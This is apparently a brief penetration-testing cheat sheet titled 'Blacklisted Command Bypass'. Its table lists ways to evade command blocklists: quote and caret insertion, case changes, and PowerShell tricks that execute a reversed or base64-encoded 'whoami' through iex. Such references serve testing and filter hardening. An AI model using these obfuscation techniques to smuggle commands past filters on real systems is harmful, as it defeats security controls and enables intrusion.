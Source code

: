 ## Blacklisted Command Bypass

|Code|Description|
|---|---|
|**Character Insertion**||
|`'` or `"`|Total must be even|
|`^`|Windows only (CMD)|
|**Case Manipulation**||
|`WhoAmi`|Simply send the character with odd cases|
|**Reversed Commands**||
|`"whoami"[-1..-20] -join ''`|Reverse a string|
|`iex "$('imaohw'[-1..-20] -join '')"`|Execute reversed command|
|**Encoded Commands**||
|`[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`|Encode a string with base64|
|`iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"`|Execute b64 encoded string|

